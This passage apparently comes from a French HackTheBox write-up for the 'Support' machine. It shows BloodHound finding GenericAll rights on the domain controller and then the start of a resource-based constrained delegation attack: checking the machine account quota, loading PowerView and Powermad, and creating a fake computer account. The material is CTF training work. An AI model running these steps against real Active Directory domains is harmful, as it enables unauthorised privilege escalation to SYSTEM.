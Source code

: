 Importer dans BloodHound et marquer SUPPORT@SUPPORT.HTB comme "Owned".

### Résultat de l'analyse

<div class="bg-red-50 dark:bg-red-900/20 p-6 rounded-xl border-l-4 border-red-500 my-4">
    <h4 class="text-xl font-bold text-red-600 dark:text-red-400 mb-3 flex items-center">
        <i class="fas fa-crown mr-2"></i>Privilège critique découvert
    </h4>
    <p class="text-gray-700 dark:text-gray-300 mb-2">
        Le groupe <strong>Shared Support Accounts</strong> possède <span class="text-highlight-red">GenericAll</span> sur le contrôleur de domaine DC.SUPPORT.HTB
    </p>
    <p class="text-sm text-gray-600 dark:text-gray-400">
        Cette permission permet une attaque RBCD (Resource-Based Constrained Delegation) pour obtenir un shell SYSTEM.
    </p>
</div>


## ⚙️ Phase 9 — Exploitation RBCD

### Vérifier le quota machine

```powershell
Get-ADObject -Identity ((Get-ADDomain).distinguishedname) -Properties ms-DS-MachineAccountQuota
```

Résultat : 10 (n'importe quel utilisateur authentifié peut créer jusqu'à 10 machines).

### Importer PowerView

```powershell
upload PowerView.ps1
. ./PowerView.ps1
Get-DomainComputer DC | select name, msds-allowedtoactonbehalfofotheridentity
```

### Créer une fausse machine

```powershell
upload Powermad.ps1
. ./Powermad.ps1
New-MachineAccount -MachineAccount FAKE-COMP01 -Password $(ConvertTo-SecureString 'Password123' -AsPlainText -Force)
```

Vérification :

```powershell
Get-ADComputer -Identity FAKE-COMP01
```

<div class="bg-green-100 dark:bg-green-900/20 border-l-4 border-green-500 p-4 my-4 rounded-r-lg">
    <p class="text-green-800 dark:text-green-200 font-bold">
        <i class="fas fa-check-circle mr-2 text-green-500"></i>
        Machine FAKE-COMP01 créée avec succès \!
    </p>
</div>
